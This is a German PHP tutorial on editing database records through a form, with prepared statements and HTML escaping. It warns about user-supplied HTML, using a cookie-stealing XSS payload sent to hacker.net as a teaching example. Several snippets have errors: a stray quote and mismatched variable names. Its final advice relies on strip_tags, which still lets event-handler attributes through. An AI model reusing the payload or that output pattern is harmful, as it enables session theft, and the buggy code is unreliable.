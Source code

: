```yaml
---
title: Daten Bearbeiten
order: 40
---
```


Wir wollen einen Datensatz aus der Datenbank laden, in einem Formular zur
Bearbeitung anbieten, und dann wieder in der Datenbank speichern.

![Formular zum Bearbeiten einer Person](/images/person_edit.png)

Das Lesen des Datensatzes aus der Datenbank erfolgt nun auch mit einem prepared Statement,
da die ID aus dem GET-Parameter gelesen wurde:

<php caption="laden des Datensatzes, der editiert werden soll">
$sth = $dbh->prepare( "SELECT * FROM users WHERE id=?" );
$sth->execute( array( $id ) );
$person = $sth->fetch();
</php>

### Das Bearbeitungs-Formular

Bei der Darstellung des Bearbeitungs-Formulars werden die Daten nun als
Standardwerte dargestellt. Das passiert bei Textfeldern mit dem Value-Attribute
und bei Textareas als Inhalt des Tags:

<htmlcode>
<input name="firstname" value="Tobias">
<textarea name="description" rows="7">Webdesigner</textarea>
</htmlcode>

§

Achtung: Falls in den Daten Anführungszeichen, kaufmännische Unds oder
Kleiner-Zeichen vorkommen müssen diese für HTML escaped werden.  Hier ein
Beispiel in MySQL:

<sql>
portfolio_playground=# select firstname,description from users where id=438;
     firstname      |          description
--------------------+--------------------------------
 Tobias "der Coder" | Mein Lieblings-Tag ist <style>
(1 row)
</sql>

So würde die Darstellung der Eingabefelder nicht funktionieren:

<htmlcode>
<input name="firstname" value="Tobias "the Coder"">
<textarea name="description" rows="7">Mein Lieblings-Tag ist <style></textarea>
</htmlcode>

Das Attribut `value` endet zu früh, und der `<style>` Tag lässt
den Rest der Webseite verschwinden.

§

Richtig ist die Darstellung gewisser Zeichen als HTML Entities:

<htmlcode>
<input name="firstname" value="Tobias &quot;the coder&quot;">
<textarea name="description" rows="7">Mein Lieblings-Tag ist &lt;style&gt;</textarea>
</htmlcode>

Diese Ersetzung wird mit der Funktion
`htmlspecialchars`[&rarr;](http://www.php.net/manual/en/function.htmlspecialchars.php) vorgenommen:

<php>
htmlspecialchars( $person->firstname );
</php>
§

Zusammenfassend sieht die Darstellung des Eingabeformulars so aus:

<php caption="Darstellung eines Eingabe-Felds des Edit-Formulars mit PHP">
<input name="firstname" value="<?= htmlspecialchars( $person->firstname ); ?>">
<textarea name="description" rows="7"><?= htmlspecialchars( $person->description ); ?></textarea>
</php>

### Verarbeitung des POST-Request

Die veränderten Daten werden mit POST an person_edit.php geschickt. Aus den Daten wird ein UPDATE-Statement erstellt:

<php caption="Update der Daten von PHP aus">
$sth = $dbh->prepare(
  "UPDATE users SET
    firstname=?,surname=?,email=?,
    profile_visible=?,description=? 
   WHERE id=?");

$update_went_ok = $sth->execute(
  array(
    $_POST['firstname'],
    $_POST['surname'],
    $_POST['email'],
    $_POST['profile_visible'],
    $_POST['description'],
    $_POST['id']
  )
);

header("Location: person.php?id=" . $_POST['id']);
exit;
</php>

Escapen von HTML
-----------------
Das Escapen der Daten für HTML hätten wir von Anfang an bei jeder Ausgabe von Daten aus der Datenbank durchführen müssen. Wir haben bisher einfach die Daten direkt mit echo ausgegeben:

<php caption="Ausgabe von Daten aus der Datenbank ohne html-escaping">
<?php echo $person->firstname ?>
<?php echo $person->surname ?>
hat insgesamt  <?php echo $no ?> Werke in dieser Datenbank.
// problematisch!
</php>

§

Wenn hier in der Description „Mein Lieblings-Tag ist &lt;style&gt;“ steht, und dieser Text einfach ausgegeben wird, dann „verschwindet“ der Rest der Webseite, weil er sich nun innerhalb eines Style-Tags befindet.

<php caption="Ausgabe von Daten aus der Datenbank mit html-escaping">
$username    = htmlspecialchars( $person->username     );
$firstname   = htmlspecialchars( $person->firstname    );
$surname     = htmlspecialchars( $person->surname      );
$description = htmlspecialchars( $person->description' );

echo <<<EOM
  <p>$anrede $vorname $nachname hat insgesamt 
  $no Werke in dieser Datenbank.
  $ersie hat den Usernamen $username.</p>

  <div>$description</div>
EOM;
</php>

Damit funktioniert nun die Darstellung des Datensatzes richtig:

![Korrekte Darstellung eines Datensatzes mit kleiner-Zeichen](/images/html-escaped1.png)

 Darstellen von HTML
---------------------
Im letzten Beispielen wurde der eingegebene HTML-Tag sichtbar auf der Webseite
angezeigt. Wie kann man HTML-Tags eingeben, abspeichern, und als HTML-Tags
wieder anzeigen?

### Gefahren
Zuerst eine Warnung: Die Anzeige von HTML das von Fremden eingegeben wurde ist
gefährlich! Dazu zwei Beispiele: Sie bauen ein Gästebuch in dem BesucherInnen
beliebiges HTML abspeichern können. Herr Lauscher trägt dort ein Bild ein:

<htmlcode>
<img src="http://lauscher.net/bild.php?woher=gaestebuch_mmt" alt="harmloses bild">
</htmlcode>

Das Bild wird also nicht von Ihrem Webserver geladen, sondern vom Webserver von
Herrn Lauscher. Und dort wird gleich ein php-Programm zum Erzeugen des Bildes
aufgerufen. D.h. Herr Lauscher kann sehr bequem mit-loggen wie viele Zugriffe
auf das Gästebuch erfolgen. Falls Herr Lauscher die Gästebuch-Besucher schon
kennt  kann er die Leute auch identifizieren.

Sie haben Herrn Lauscher also die Möglichkeit gegeben sehr viel über Ihre
BesucherInne zu erfahren. So etwas ähnliches passiert z.B. wenn Sie Google
Analytics in Ihre Webseite einbinden um Zugriffs-Statistiken zu erstellen:
Google erfährt von jedem Zugriff auf Ihre Seite, Google kennt viele
BesucherInnen schon (weil Sie bei gmail.com eingeloggt sind oder von einer
vorhergehenden Suche noch ein Cookie haben.)  Oder wenn Sie den Facebook 
"Like-Button" in ihre Seite einbinden.

§

Im zweiten Beispiel gibt Frau Hacker neben einem Bild noch etwas Javascript ein:

<htmlcode>
Hallo Welt 

<img src="http://hacker.net/bild.php" alt="harmlos" id="hack_tool" />
<script>
document.getElementById("hack_tool").src += "?c=" + document.cookie;
</script>
</htmlcode>

Mit der einen Zeile Javascript wir das Cookie an die URL des Bildes angefügt, das Ergebnis ist z.B:

<htmlcode>
<img id="hack_tool" alt="harmloses bild" 
src="http://hacker.net/bild.php?keks=PHPSESSID=6b454e966f9fc9b9a9d5126ffb076115"/>
</htmlcode>

So kann Frau Hacker das Cookie einer BesucherIn Ihres Gästebuchs entwenden. Sie
kann nun das Cookie verwenden um als eingeloggter User Ihre Seite zu benützen!

Lassen Sie niemals, niemals, niemals zu, dass Fremde Javascript in Ihre Site einspeisen können!

§

Noch hat unsere Applikation dieses Problem nicht: Wenn Frau Hacker Ihren Code
z.B. in das Profil einer Person eingibt wir der Code htmlescaped angezeigt und
„wirkt nicht“:

![Eingegebener HTML+Javascript-Code wird escaped und dargestellt](/images/html-escaped.png)

### Eingabe von HTML

Die Eingabe des HTML-Codes können Sie mit einem Javascript-Editor wie TinyMCE
erleichtern. TinyMCE verwandelt eine normale Textarea in einen wysiwyg-Editor:

![Normale Textarea (oben) kann mit TinyMCE in einen wysiwyg-Editor (unten) verwandelt werden](/images/tinymce.png)


### Behandlugn von eingegebenem HTML

Für die Beispiel-Applikation wollen wir Zulassen, dass im Profil die HTML-Tags
`<p>` und `<b>` verwendet werden können, mehr nicht. Dass es nur diese
Tags und keine anderen sind wird schon bei der **Eingabe** sicher
gestellt. Und sicherheitshalber bei der Ausgabe auch noch einmal.

<php>
$description = strip_tags( $_POST['description'], "<p><b>" );
</php>

§

Nun können Sie auch die Ausgabe des Profils umstellen und auf das escapen 
der `description` verzichten:

<php caption="Ausgabe von Daten aus der Datenbank mit html-escaping">
$username    = htmlspecialchars( $person->username     );
$firstname   = htmlspecialchars( $person->firstname    );
$surname     = htmlspecialchars( $person->surname      );
$description = strip_tags( $person->description,  "<p><b>" );

echo <<<EOM
  <p>$anrede $vorname $nachname hat insgesamt 
  $no Werke in dieser Datenbank.
  $ersie hat den Usernamen $username.</p>

  <div>$description</div>
EOM;
</php>

